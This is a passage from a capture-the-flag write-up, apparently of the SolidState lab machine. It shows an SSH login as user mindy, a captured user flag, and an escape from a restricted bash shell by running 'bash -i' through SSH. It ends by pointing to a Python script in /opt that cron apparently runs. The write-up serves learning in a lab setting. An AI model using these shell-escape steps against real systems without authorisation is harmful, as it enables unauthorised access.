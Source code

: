 
## Exploitation
### Access via SSH

We access to the server via SSH as user **mindy**.

```bash
root@kali:~$ ssh -l mindy 192.168.179.185 
mindy@192.168.179.185's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$
```

We found the flag in her home directory.

```bash
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt 
914d0a4ebc1777889b5b89a23f556fd75
mindy@solidstate:~$
```

By trying to execute some system commands, we see that we are under a restricted shell.

```bash
mindy@solidstate:~$ cd bin/
-rbash: cd: restricted
mindy@solidstate:~$ ip addr
-rbash: ip: command not found
mindy@solidstate:~
```

To bypass the jailed shell, we type **bash -i** to the SSH command.

```bash
root@kali:~$ ssh -l mindy 192.168.179.185 "bash -i"                          
mindy@192.168.179.185's password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```

Now we can run any system command, a python script was found in the **/opt** directory, probably a cron job is running this file.
